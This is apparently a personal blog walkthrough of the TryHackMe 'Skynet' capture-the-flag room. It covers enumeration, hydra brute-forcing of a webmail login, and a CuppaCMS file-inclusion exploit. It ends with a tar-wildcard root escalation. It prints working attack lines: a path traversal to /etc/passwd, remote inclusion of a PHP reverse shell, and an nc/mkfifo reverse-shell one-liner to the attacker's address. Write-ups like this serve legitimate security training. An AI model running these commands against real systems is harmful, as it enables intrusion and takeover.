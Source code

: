 #+TITLE: Sigh...Hasta La Vista: THM: Skynet
#+DATE: <2023-12-15 11:32>
#+DESCRIPTION: 
#+FILETAGS: tryhackme

Yesterday I lost the opportunity to use "I'll be back" on my post's
title. Unfortunate but I had not seen ~Skynet~ in the list of my TODO
rooms.

* Reconnaissance
Start by updating ~/etc/hosts~ and ~.bashrc~, to save yourself some time.

 #+NAME: Update hosts and bashrc
 #+begin_src bash
 echo "10.10.201.239  skynet.thm" >> /etc/hosts
 echo "IP=skynet.thm" >> ~/.bashrc
 #+end_src


** Port Scanning
The usual CTF-oriented nmap quick scan revealed quite a lot of open
ports in the target machine:
- [ ] 22: SSH
- [ ] 80: HTTP webserver
- [ ] 110: pop3: Dovecot pop3d
  - POP3 mail server
- [ ] 139: Samba (3.X-4.X)
- [ ] 143: imap: Dovecot imapd
- [ ] 445: Samba 4.3.11 

I started the full scan, just to be thorough enough, but we had enough
data to get going
#+NAME: Initial nmap scan
#+begin_src bash
nmap -sV -sC -oN nmap.initial $IP
nmap -p- -oN nmap.full -T4 $IP
#+end_src

** Understanding target ports
** Website
The webserver strangely looks like a search engine, and it does not
produce any results to the random strings I tried.  

#+caption: Homepage
[[file:images/Reconnaissance/20231215_114140_screenshot.png]]

*** Directory Enumeration with gobuster
Seeing that I was unable to get any promising information manually, I
did not lose any more time, before launching gobuster:

#+NAME: Gobuster with IP and default path
#+begin_src bash
gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -u http://$IP -o gobuster.big
#+end_src

That, in turn, gave us some directories to check:
#+begin_example
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/admin (Status: 301)
/ai (Status: 301)
/config (Status: 301)
/css (Status: 301)
/js (Status: 301)
/server-status (Status: 403)
/squirrelmail (Status: 301)
#+end_example

While most of these show up as forbidden, *squirrelmail* is promising:

#+caption: SquirrelMail Login page
[[file:images/Reconnaissance/20231215_114714_screenshot.png]]


Sadly *searchsploit* did not reveal any usable exploits for that version
(had it been for 1.4.22, we would have a perfectly fine RCE...shame)

** Samba enumeration
Just from what we have already seen, we do not have any credentials or
information about the users of this machine. Putting web analysis and
enumeration on hold for Samba might be the right move to make:

#+caption: Nmap samba info
[[file:images/Reconnaissance/20231216_125505_screenshot.png]]

I'm thinking of using ~smbclient~ and if that does not get us anywhere
~enum4linux~ to get some more information about the shares available

Smbclient does a pretty decent job:
#+NAME: Smbclient share enumeration
#+begin_src bash
smbclient -L $IP -U guest
#+end_src

 #+caption: Shares on target samba
 [[file:images/Reconnaissance/20231216_125934_screenshot.png]]

Now it would be interesting to connect to any of those shares (except
for print actually):
- [ ] anonymous might be the only one not password protected
- [ ] milesdyson might gives us some more information about the user
- [ ] IPC might have some interesting files for us (perhaps a path to
  gain initial foothold or privilege escalation later on)
 
**** Anonymous
 #+NAME: Connect to anonymous smb share
 #+begin_src bash
smbclient //$IP/anonymous -U guest
 #+end_src

Not much here:
- An ~attention.txt~ file, simply pointing at a /recent system
  malfunction/.
- A log subdirectory containing:
  - ~log1.txt~: Looks like a wordlist - maybe checking it with hydra
    against the login prompt (or the samba share / ssh server maybe) with
    ~milesdyson~ (?)
  - ~log{2,3}.txt~: empty files

**** Milesdyson
#+NAME: Connect to anonymous smb share
#+begin_src bash
smbclient //$IP/milesdyson -U guest
#+end_src

Access denied - can't login here as ~milesdyson~.

** Testing the wordlist
- The given wordlist proved useless for ssh login
- Testing the wordlist on the mail entrypoint was a good choice : we
  got miles password
  
#+NAME: Hydra bruteforcing mail
#+begin_src bash
hydra -l milesdyson -P log1.txt $IP http-post-form "/squirrelmail/src/redirect.php: login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:incorrect"
#+end_src

#+begin_comment
cyborg007haloterminator
#+end_comment

** Checking the mail
Using the newly found password, we can try to see if there is any
useful information in the user's email account:

*** Password rEsEt
#+caption: Lo and Behold
[[file:images/Reconnaissance/20231216_131629_screenshot.png]]

#+begin_comment
)s{A&2Z=F^n_E.B`
#+end_comment

*** Yeah don't know about that
In another mail, we get this binary sequence, which given its
structure suggests the usage of a binary to ASCII converter: The final
text makes *absolutely* no sense:

#+begin_example
balls have zero to me to me to me to me to me to me to me to me to
#+end_example

#+caption: Peculiar, obfuscated hexdump
#+DOWNLOADED: screenshot @ 2023-12-16 13:17:54
[[file:images/Reconnaissance/20231216_131754_screenshot.png]]

After viewing the last email, the "hexdump" from above seems to be a
line from a song (?) - Nah. Searching for it online it *interestingly*
points to an incident in Facebook Artificial Intelligence lab: [[https://languagelog.ldc.upenn.edu/nll/?p=33355][see
here]]


** Going back to the samba shares
#+NAME: Connect to milesdyson smb share as milesdyson
#+begin_src bash
smbclient //$IP/milesdyson -U milesdyson
#+end_src

In this share there are some machine/deep learning related pdfs, a
wide set of markdown notes on these topics (might be worth checking
out :P), and a file titled ~important.txt~. *Sigh* I mEaN wHeRe sHoUlD I
gO nOw?

#+caption: Important.txt
[[file:images/Reconnaissance/20231216_132530_screenshot.png]]


#+begin_comment
/45kra24zxs28v3yd
#+end_comment

** Checking the CMS
#+begin_comment
http://skynet.thm/45kra24zxs28v3yd/administrator/
#+end_comment
There seems to be a personal webpage at the new link we found out
about. Again, enumeration is due:
- ~/administrator~ gets found by gobuster

#+NAME: Gobuster with IP and default path
#+begin_src bash
gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -u http://$IP/45kra24zxs28v3yd -o gobuster.big
#+end_src

Visiting ~/administrator~ we get to a login page of *CuppaCMS*:

#+caption: Login page of Cuppa
[[file:images/Reconnaissance/20231216_132854_screenshot.png]]

My first thought was to check the password we had found for the email,
however, my lazy me thought: /Too manual/, check for exploits first.
Apparently there is a readily available exploit in exploit-db: 25971.

* Exploitation
** CuppaCMS
Using the following payload, as described in the exploit we found, we
see that there is:
1. LFI potential (we could maybe get a flag through that (?))
2. RFI potential (PHP injection) (a reverse shell might be nice as well)

#+begin_example
http://skynet.thm/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
#+end_example

*** Generating a php reverse shell and hosting it
I always like using [[https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php][this]] as my go-to php shell so there was not much
to do:
 #+NAME: Fixing the php rev shell
 #+begin_src bash
 wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
 vim php-reverse-shell.php
 python3 -m http.server
 nc -lvnp 6969 # do not forget the listener
 #+end_src

Then, manipulating the ~urlConfig~ parameter once again we forge a
request:
#+begin_example
http://skynet.thm/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.95.44:8000/php-reverse-shell.php
#+end_example

This successfully gives us an entrypoint!

* Privilege Escalation - Lateral Movement
Before doing anything else, make the shell more usable:
 #+NAME: Usability
 #+begin_src bash
 python3 -c 'import pty; pty.spawn("/bin/bash")'
 #+end_src

** www-data
We can move to miles home directory and get the user flag, but there
are some more interesting files there as well:
- share: the samba share that we have already checked
- backups.sh: i'm thinking that this will be the way to get access as
  another user: a crontab must be running and while the file itself is
  not readily exploitable by us (not writeable), we can manipulate its
  options

* Getting Root: Tar wildcards
I have seen this exploit before so I know that by creating the right
set of files, this line can result to either the creation of a SUID
shell file for us, or to another reverse shell. For the shake of
simplicity, I will go the second route.[fn:1]

#+begin_example
tar cf /home/milesdyson/backups/backup.tgz *
#+end_example

Initially I had opted for a different route but, for some reason I
could not create the checkpoint action file. Creating a /payload/ file
with the command, I changed my approach to the following: 

#+NAME: Create files
#+begin_src bash
echo ''>  '--checkpoint=1'
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.95.44 6970 >/tmp/f' > shell.sh
echo "" > "--checkpoint-action=exec=bash shell.sh"
#+end_src

* Conclusion

#+begin_export html
<div class="tenor-gif-embed" data-postid="20118743" data-share-method="host" data-aspect-ratio="1.56863" data-width="100%"><a href="https://tenor.com/view/exterminador-do-futuro-gif-20118743">Exterminador Futuro GIF</a>from <a href="https://tenor.com/search/exterminador-gifs">Exterminador GIFs</a></div> <script type="text/javascript" async src="https://tenor.com/embed.js"></script>
#+end_export

* Footnotes

[fn:1] In fact: source: https://www.sevenlayers.com/index.php/353-exploiting-tar-wildcards
